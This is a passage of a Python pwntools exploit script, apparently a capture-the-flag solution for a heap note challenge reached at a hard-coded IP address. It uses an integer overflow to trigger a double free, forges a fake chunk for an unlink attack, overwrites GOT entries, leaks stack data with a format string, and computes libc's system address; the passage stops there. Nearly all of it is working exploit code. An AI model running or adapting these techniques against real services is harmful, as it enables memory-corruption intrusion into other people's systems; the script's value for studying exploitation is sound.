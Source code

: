 ```
    print conn.recvuntil('>>')
    conn.sendline('4')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('success')

conn = remote('115.28.27.103',9003)
free_got = p64(0x602018)
puts_got = p64(0x602020)
stack_got = p64(0x602038)
printf_got = p64(0x602030)
exit_got = p64(0x602078)
printf_plt = p64(0x400750)
puts_plt = p64(0x400730)

#libcstartmain_ret_off = 0x21b45
#sys_off = 0x414f0

libcstartmain_ret_off = 0x21ec5
sys_off = 0x46640

# 1. int overflow lead to double free
intoverflow = -9223372036854775808
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,p64(0x400ef8))
malloc(512,'/bin/sh\0')

# 2. make a fake chunk and modify the next chunk's pre size
fakechunk = p64(0) + p64(512+1) + p64(0x6020e0-0x18) + p64(0x6020e0-0x10) + 'A'*(512-32) + p64(512) + p64(512+16)
edit(3,'aaaaaa')
edit(intoverflow,fakechunk)

# 3. double free
free(4)

# 4. overwrite got
edit(3,free_got)
edit(0,printf_plt+printf_plt)

# 5. leak the stack data
edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)

# free->puts
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))

ret =  conn.recvuntil('success')
print ret

# 6. calcuate the system's addr
libcstart = ret.split('.')[10]
libcstart_2 = int(libcstart,16) - libcstartmain_ret_off
print 'libc start addr:',hex(libcstart_2)
system_addr = libcstart_2 + sys_off
```